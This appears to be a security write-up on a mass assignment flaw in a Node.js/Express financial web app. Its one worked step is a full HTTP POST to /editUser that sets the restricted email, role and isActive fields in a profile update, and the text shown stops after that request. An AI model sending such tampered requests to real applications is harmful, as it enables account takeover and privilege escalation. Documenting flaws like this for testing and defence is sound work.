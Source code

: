 ## Target Background

The web application is developed using the Node.js framework. It incorporates dynamic roles, allowing the creation and assignment of new roles to users based on business requirements. The application is mostly used for financial purposes.

## Technology Stack

The technology stack used in the Target application includes the following components:

- Bootstrap
- Express
- Node.js

## CRUD Operation

CRUD refers to Create, Read, Update, and Delete operations, which are fundamental to managing data in both database systems and web applications. Each letter in the acronym represents a specific operation.

### Exploiting Mass Assignment Vulnerability

The Target application provides a feature that allows users to update their profiles with various details. However, changing the email address is restricted since users sign up using their email addresses.

### Request

```http
POST /editUser HTTP/2
Host: abc.com
Cookie: blah....blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Csrf-Token: csrf_token_value
Referer: https://abc.com/dashboard
Content-Length: 534
Origin: https://abc.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{
  "user_Id": "2abaac0a-4af8-4101-a763-9d0229cafb12",
  "email": "naveenj@thevillagehacker.com",
  "Mobile": "9874563217",
  "role": "Analyst",
  "isActive": true
}
```
